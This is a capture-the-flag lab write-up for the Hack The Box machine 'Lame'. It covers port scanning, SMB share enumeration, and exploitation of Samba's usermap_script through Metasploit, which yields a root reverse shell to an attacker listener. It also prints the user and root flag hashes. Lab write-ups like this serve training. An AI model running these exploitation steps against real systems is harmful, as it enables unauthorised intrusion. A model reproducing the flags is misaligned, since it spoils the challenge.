 # HTB: Lame

## Engagement Overview
**Target:** Lame (HTB)  
**Box IP:** 10.10.10.3  
**Local IP:** (recorded in original notes)  
**Date:** 2025-07-02

---

### Objectives
- Enumerate network services (SMB/FTP/SSH) and writable shares.  
- Exploit Samba (usermap_script) to gain command execution.  
- Escalate to root and capture flags.

---

## Service Enumeration

```bash
nmap -p- --min-rate=1000 -T4 10.10.10.3
```

**Relevant ports discovered:**  
- 21/tcp ftp (vsftpd)  
- 22/tcp ssh  
- 139/tcp netbios-ssn  
- 445/tcp microsoft-ds (Samba)  
- 3632/tcp distccd

SMB shares (from smbmap): `tmp` share is READ,WRITE — usable for uploads.

---

## Initial Access

### SMB foothold
```bash
smbmap -H 10.10.10.3
smbclient -N \\10.10.10.3\tmp
# connected to tmp share and uploaded/executed payload via exploit flow
```

### Exploitation attempted/used
- vsftpd 2.3.4 backdoor (CVE-2011-2523) noted but port filtered/unusable.  
- Successfully used `exploit/multi/samba/usermap_script` (Metasploit) to execute commands, resulting in a reverse shell to attacker listener.

```text
# msf console snippet
msf6 > use exploit/multi/samba/usermap_script
[*] Started reverse TCP handler on 10.10.16.5:4444
[*] Command shell session 1 opened (10.10.16.5:4444 -> 10.10.10.3:43580)
```

Upgraded shell and spawned an interactive TTY:
```bash
python -c 'import pty; pty.spawn("/bin/bash")'
id
# uid=0(root) gid=0(root)
```

---

## Privilege Escalation

- Post-exploit TTY indicates root obtained via exploit flow; no additional privesc steps required.

---

## House Cleaning / Post-Exploitation

**Flags:**  
- `user.txt`: `e95ac31f8132e26eac44c2fe58792cfa`  
- `root.txt`: `4f8f2ae18815f97ffdf7975965d6b624`

- Removed any uploaded artifacts where applicable.  

---

## Tools Utilized
- nmap, smbmap, smbclient, metasploit, nc, python

---

## Key Takeaways
- Writable SMB shares are useful for dropping/executing payloads.  
- Samba `usermap_script` exploit remains relevant for legacy systems.  
- Always test multiple attack vectors (FTP, SMB) when initial paths are filtered.
